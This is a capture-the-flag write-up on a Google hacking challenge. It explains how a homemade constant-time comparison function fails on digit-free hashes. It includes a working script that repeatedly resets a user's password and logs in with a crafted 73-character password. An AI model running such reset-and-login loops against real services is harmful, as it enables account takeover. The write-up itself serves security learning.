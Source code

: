 #+title: H4ck1ng G00gl3 ep004 challenge 02
#+description: todo
#+publishdate: 2022-11-20
#+options: ^:nil


* Introduction

[[https://h4ck1ng.google/][H4ck1ng G00gl3]] is a series of security challenges published on *October 2022* where the only way to win is to think like a hacker. In this post, I explain how I solved *ep004 challenge 02*. Category *Web Exploitation*.

* Learning Journey

[[../../images/h4ck1ng00gl3ep004ch02/intro.png]]

In this challenge, we are given some code. We have to find the vulnerability and login as "tin". Let's check the code.

[[../../images/h4ck1ng00gl3ep004ch02/hashed-passwords.png]]

I found two hardcoded users and their hashed passwords in the "users.js" file. My first idea was to try and bruteforce somehow the password for "tin", but to no avail. I also searched for the value in some rainbow tables on the internet, but it didn't work out.

In that file, I also found a function to reset the password with a comment saying: "we don't allow admins to reset passwords". "tin" is not an admin, and that comment makes me think it has to be an important detail. However, I don't see how this helps me now, so I wrote it down and continued reading the code.

[[../../images/h4ck1ng00gl3ep004ch02/reset-password.png]]

I found another interesting file, "safe-equals.js". It's strange because *the developers programmed their own version of constant time string comparison*. Programming your own cryptographic functions is dangerous. For sure, there must be some vulnerability hidden here. At first glance, it seems to be correct. I didn't pay the required attention to the code. I read it fast and thought it was comparing each letter of the string position by position, regardless of the first position where the letters differed.

[[../../images/h4ck1ng00gl3ep004ch02/safe-equal.png]]

That made me lose a lot of time double-checking other parts of the code. I went to ask the community. Effectively, the *"safeEqual" function is vulnerable*. I had to come back and read it again. This time I decided to check line by line and check on the internet the documentation for every function. After that, I understood the problem. It isn't comparing each value stored in each position of the strings passed as input. Instead, *it compares the indices of the first appearance of every number that the loop is iterating*. I'm not sure I explained myself there, so let me put it in an example.

#+begin_src javascript
  // Example: call the function with two strings of the same length
  function safeEqual('abc123', 'a1b2c3') {
      let match = true;

      // For our input, this condition is not met
      if(a.length !== b.length) {
          // This is not executed
          match = false;
      }

      const l = a.length; // l = 6
      // Iterate from 0 to 5
      for (let i = 0; i < l; i++) {
        // Compare the index of value "i" in both strings.
        // For i = 0 -> a.indexOf(0) === b.indexOf(0) -> -1 === -1 -> true
        // For i = 1 -> a.indexOf(1) === b.indexOf(1) -> 4 === 1 -> false
        // ...
        match &&= a.indexOf(i) === b.indexOf(i);
      }


    return match;
  }

  safeEqual('abc123', 'a1b2c3') // returns false
  safeEqual('abcd', 'qwer') // returns true
  safeEqual('ab12c', 'qw121') // returns true
#+end_src

The function checks that the first occurrence of each number in both strings returns the same index. If you think about it, that means that any two strings without numbers will return true. *The trick then is to reset "tin" password until it creates a hash without numbers. Then, we must log in with a password that produces a hash without numbers.*

First, I searched for a password that produced a hash without numbers. It was simple. I just computed in a for loop the hash value for strings of different lengths with the letter "a" (e.g., "a", "aa", "aaa"). The result was that a *string containing seventy-three "a" produces a hash without numbers*. That is our password. The second step was creating a script that automatically called the reset password endpoint and then tried to log in with the password we computed.

#+begin_src javascript
  const requestPromise = require('request-promise').defaults({ jar: true });

  var loginOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/login',
      form: {
          username: 'tin',
          password: 'a'.repeat(73)
      },
      followAllRedirects: true,
  };

  var resetOptions = {
      method: 'POST',
      uri: 'https://vrp-website-web.h4ck.ctfcompetition.com/reset-password',
      form: {
          username: 'tin'
      },
  };

  (async function () {
      let i = 0;
      let incorrect = true;
      while (incorrect) {
          const loginResponse = await requestPromise(loginOptions);
          incorrect = /Incorrect/.test(loginResponse);
          console.log(i);
          i++;

          if (!incorrect) {
              console.log(loginResponse);
              break;
          }

          await requestPromise(resetOptions);
      }
  })();
#+end_src

Executing the script returns the response with the flag. With that, we completed the challenge.

[[../../images/h4ck1ng00gl3ep004ch02/intro.png]]
